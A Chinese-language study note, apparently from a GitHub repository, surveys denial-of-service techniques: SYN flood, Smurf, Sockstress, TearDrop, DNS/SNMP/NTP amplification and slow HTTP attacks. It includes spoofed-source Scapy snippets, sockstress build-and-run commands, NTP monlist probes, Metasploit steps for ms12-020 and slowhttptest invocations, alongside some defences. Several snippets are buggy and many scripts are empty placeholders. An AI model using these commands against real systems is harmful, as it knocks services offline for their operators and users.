


# 类型及原理

## 0x01 Syn-Flood
> 常伴随IP欺骗, 仅发syn包, 不再做后续回应

网络状态解析图

  

### Scapy解析原理
syn_flood.py

```python
TODO
```


### IP地址欺骗
-	经常用于DoS攻击
-	根据IP头地址寻址
  -	伪造IP源地址
-	边界路由器过滤
  -	入站、出站
-	受害者可能是源、目的地址
-	绕过基于地址的验证
-	压力测试模拟多用户
-	上层协议（TCP序列号）

## 0x02 Smurf攻击
> 世界上最古老的DDoS攻击技术, 向广播地址发送伪造源地址的 ICMP echo Request（ping）包, LAN所有计算机向伪造源地址返回晌应包, 但对现代操作系统几乎无效（不晌应目标为广播的ping）

### Scapy解析原理
smurf.py

```python
TODO
```

## 0x03 Sockstress
> 2008年由Jack C. Louis 发现, 针对TCP服务的拒绝服务攻击

### 原理
-	消耗被攻击目标系统资源
-	与攻击目标建立大量socket链接
-	完成三次握手,**最后的ACK包 window 大小为 0**（客户端不接收数据）
-	攻击者资源消耗小（CPU、内存、带宽）
-	异步攻击,单机可拒绝服务高配资源服务器
-	Window 窗口实现的TCP 流控 

### Scapy解析原理

sockstree.py

```python
# TODO: 
```

### C攻击脚本
-	https://github.com/defuse/sockstress
-	gcc -Wall -c sockstress.c
-	gcc -pthread -o sockstress sockstress.o
-	./sockstress 1.1.1.1:80 eth0
-	./sockstress 1.1.1.1:80 eth0 -p payloads/http

### 查看攻击效果
- netstat 
- free
- top

### 防御措施
-	直到今天sockstress攻击仍然是—种很有效的DoS攻击方式
-	由于建立完整的TCP三步握手,因此使用syn cookie防御无效
-	根本的防御方法是采用白名单（不实际）
-	折中对策：限制单位时间内每IP建的TCP连接数
    -	封杀每30秒与80端口建立连接超过10个的IP地址
    -	iptables -I INPUT -p tcp --dport 80 -m state --state NEW -m recent --set
    -	iptables -I INPUT -p tcp --dport 80 -m state --state NEW -m recent --update --seconds 30 --hitcount 10 -j DROP
    -	以上规则对DDoS攻击无效

## 0x04 TearDrop
> -	主要针对早期微软操作系统（95、98、3.x、nt）, 近些年有人发现对2.x版本的android系统、6.0 IOS系统攻击有效, 被攻击者可能蓝屏、重启、卡死

### 原理
> 使用IP分段偏移值实现分段覆盖,接收端处理分段覆盖时可能被拒绝服务.  具体实现, 可以先发一个报文, MF标志位为1, 下一个报文的偏移位在第一个报文的数据长度内, 形成数据覆盖.但是, 都不同系统, 不同应用进行攻击, 具体的覆盖量是不一样的.

IP报文格式  


### 攻击脚本

teardrop_smb.py

```python
 # TODO: 
```

teardrop_android_ios.py

```python
# TODO: 
```

## 0x05 放大攻击
> 主要是利用请求报文数据量小而反馈报文数据量大, 配合源地址伪造成要攻击的目标, 即可都目标进行攻击.


### DNS放大攻击
> 一种产生大流量的攻击方式, DNS协议放大效果, 利用协议特性实现放大效果的流量, 且可以利用多个单机进行攻击,巨大单机数量可形成流量汇聚

- 特点: 查询请求流量小,但晌应流量可能非常巨大

```
dig ANY hp.com @202.106.0.20（流量放大约8倍）
```
- 攻击原理: 

```
伪造源地址为被攻击目标地址,向递归域名查询服务器发起查询
DNS服务器成为流量放大和实施攻击者,大量DNS服务器实现DDoS
```

##### 实现脚本

```python
Scapy验证代码

i=IP() 
i.dst="202.106.0.20" 
i.src="1.1.1.1" # 攻击目标
i.display()
u=UDP() 
u.display() 
u.dport=53
d=DNS() 
d.rd=1 
d.qddount=1 
d.display()
q=DNSQR() 
q.qname='hp.com' 
q.qtype=255 
q.display()
d.qd=qd.display()
r= (i/u/d)
r.display()
r.send()

完整脚本
# TODO: 
```

### SNMP放大攻击
> 简单网络管理协议(Simple Network Management Protocol)
- 服务端口:  `UDP 161 / 162`
- 管理站 ( manager / 客户端) 、被管理设备 ( agent / 服务端 )
- 主要查询MIB信息

```
管理信息数据库（MIB）是—个信息存储库,包含管理代理中的有关配置和性能 的数据,按照不同分类,包含分属不同组的多个数据对象
每—个节点都有—个对象标识符（OID）来唯—的标识
有IETF定义便准的MIB库 / 厂家自定义MIB库
```

##### 攻击原理
-	请求流量小,查询结果返回流量大
-	结合伪造源地址实现攻击

##### 实现脚本

```python
验证脚本
i=IP() 
i.dst=“1.1.1.1" 
i.display()
u=UDP() 
u.dport=161 
u.sport=161
s=SNMP() 
s.community= 'public' 
s.display()
b=SNMPbulk()
b.display()
b.max_repetitions = 100 
b.varbindlist=[SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.1')),SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.19.1.3'))]
s.PDU=b 
snmp.display()
r=(i/u/s) 
r.display()
send(r)

实现脚本
# TODO
```

### NTP放大攻击
> 网络时间协议(Network Time Protocol)
-	保证网络设备时间同步
-	误差原因: 电子设备互相干扰导致时钟差异越来越大
-	时钟误差可能影晌应用正常运行、日志审计不可信
-	服务端口 UDP:123

##### 攻击原理
-	NTP 服务提供monlist（MON_GETLIST）查询功能
-	监控 NTP 服务器的状况
-	客户端查询时,可以让NTP服务器返回最后同步时间的 600 个客户端 IP
-	每6个IP—个数据包,最多100个数据包（放大约100倍）

##### 发现NTP服务

```
nmap -sU -p123 ip
```

##### 发现利用漏洞
-	ntpdc -n -c monlist 1.1.1.1
- ntpq -c rv 1.1.1.1
-	ntpdc -c sysinfo 192.168.20.5

#### NTP攻击对策
-	升级到 ntpd 4.2.7p26 及以上的版本（默认关闭monlist查询）
-	手动关闭monlist查询功能
 
## 0x06 应用层攻击
> 主要利用应用服务特性或代码漏洞
-	服务代码存在漏洞,遇异常提交数据时程序崩溃
-	应用处理大量并发请求能力有限,被拒绝的是应用或OS

##### 缓冲区溢出漏洞
-	向目标函数随机提交数据,特定清况下数据覆盖临近寄存器或内存
-	影晌：远程代码执行、DoS
-	利用模糊测试方法发现缓冲区溢出漏洞

### CeserFTP 0.99 服务漏洞
ftp_fuzz.py

```python
# TODO
```

### 如ms12-020 远程桌面协议DoS漏洞

```
可以直接利用msf里面的exp
search ms12-020
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
show options 
set RHOST target_ip
run
```

### slowhttptest
> 低带宽应用层漫速DoS攻击（相对CC攻击等快速攻击而言的漫速, 最早由Python编写,跨平台支持（Linux、win、Cygwin、OSX), 尤其擅长攻击apache、tomcat（几乎百发百中)

#### 攻击方法
> 耗尽WEB应用的并发连接池,类似传输层的Syn flood,HTTP协议默认在服务器全部接收请求之后才开始处理,若客户端发送速度缓漫或不完 整,服务器时钟为其保留连接资源池占用,此类大量并发将导致DoS

-	Slowloris：完整的http请求结尾是\r\n\r\n,攻击发\r\n
-	Slow POST： HTTP头content-length声明长度,但body部分缓漫发送
-	Slow Read attack攻击
    -	不同之处在于请求正常发送,但漫速读取晌应数据
    -	攻击者调整TCP window窗口大小,是服务器漫速返回数据
-	Apache Range Header attack
    -	客户端传输大文件时, 对HTTP Body大小限制时进行分段
    -	耗尽服务器CPU、内存资源


```
slowhttptest  -h

slowhttptest, a tool to test for slow HTTP DoS vulnerabilities - version 1.6
Usage: slowhttptest [options ...]
Test modes:
  -H               slow headers a.k.a. Slowloris (default)
  -B               slow body a.k.a R-U-Dead-Yet
  -R               range attack a.k.a Apache killer
  -X               slow read a.k.a Slow Read

Example 

slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -t GET -u https://host.example.com/index.html -x 24 -p 3
slowhttptest -c 3000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u http://host.example.com/loginform.html -x 10 -p 3
slowhttptest -R -u http://host.example.com/ -t HEAD -c 1000 -a 10 -b 3000 -r 500
slowhttptest -d 10.10.0.1:8080 -c 8000 -X -u https://host.example.com/resources/index.html
```
+ 注: 如果openfile限制, 可以`ulimite -n 70000`
+ 工具支持代理, 具体设置看帮助文档
+ 大多数应用服务器和安全设备都无法防护漫速攻击

## 0x07 其它DoS情况

### 轰炸邮箱
> 使用垃圾邮件塞满邮件

### 无意识的拒绝服务攻击
> 如数据库服务器宕机恢复后, 引用队列大量请求洪水般漏来, 告警邮件在邮件服务器修改后不断发送大量警告信息.
